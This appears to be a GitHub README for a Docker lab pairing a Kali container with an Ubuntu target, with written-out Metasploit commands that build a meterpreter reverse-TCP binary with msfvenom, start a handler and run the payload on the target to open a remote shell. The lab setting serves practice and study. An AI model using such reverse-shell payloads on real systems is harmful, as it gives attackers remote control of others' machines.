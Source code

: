 # hackali

## requirements

- Docker
- Docker Compose
- (Optional) Visual Studio Code
  - (Optional) Remote - Containers (extension)

## usage

### use Metasploit

```sh
# host
docker-compose up -d
docker-compose exec kali bash
```

```sh
# kali
cd /workspace/ubuntu
msfconsole
```

```
# kali (msfconsole)
msf5 > search type:payload reverse_tcp platform:linux arch:x64
msf5 > msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=kali lport=5555 -f elf -o revshell
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost kali
msf5 exploit(multi/handler) > set lport 5555
msf5 exploit(multi/handler) > exploit
```

```sh
# host
docker-compose exec ubuntu bash
```

```sh
# ubuntu
cd /workspace
./revshell
```

### shutdown

```sh
# host
docker-compose down
```
